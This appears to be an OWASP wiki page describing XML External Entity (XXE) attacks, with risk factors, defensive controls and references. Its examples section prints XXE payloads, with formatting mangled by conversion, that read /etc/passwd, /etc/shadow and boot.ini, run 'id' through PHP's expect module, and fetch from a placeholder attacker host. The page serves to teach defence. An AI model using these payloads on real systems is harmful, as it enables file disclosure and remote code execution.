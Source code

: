 ```yaml
---

layout: col-sidebar
title: XML External Entity (XXE) Processing
author: 
contributors: 
permalink: /vulnerabilities/XML_External_Entity_(XXE)_Processing
tags: vulnerability, XML External Entity (XXE) Processing
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **//**

[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type
    declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection
(OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///dev/random"``
 ``>]><foo>&xxe;</foo>`**

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

`'''`

<?xml version="1.0" encoding="ISO-8859-1"?>

'''

*`'``   ``<!DOCTYPE``   ``foo``   ``[``   ``<!ELEMENT``   ``foo``
 ``ANY``   ``>`*`'`
*`'``   ``<!ENTITY``   ``xxe``   ``SYSTEM``   ``"expect://id"``
 ``>]>`*`'`
` `*`'``   `<creds>*`'`
` `*`'``   `<user>`&xxe;`</user>*`'`
` `*`'``   `<pass>`mypass`</pass>*`'`
` `*`'``   `</creds>*`'`

### Disclosing /etc/passwd or other targeted files

`''' `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/passwd>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/shadow>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///c:/boot.ini>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>`<foo>`&xxe;`</foo>`'''`

## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](Controls "wikilink")

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise defend
against XXE attacks is presented in the [XML External Entity (XXE)
Prevention Cheat
Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat
    Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks -
    A Compendium of Known
    Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec
    USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity
    Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type
    Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at
    OWASP AppSec
    Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE
    vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in
    French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in
    .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on
    XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")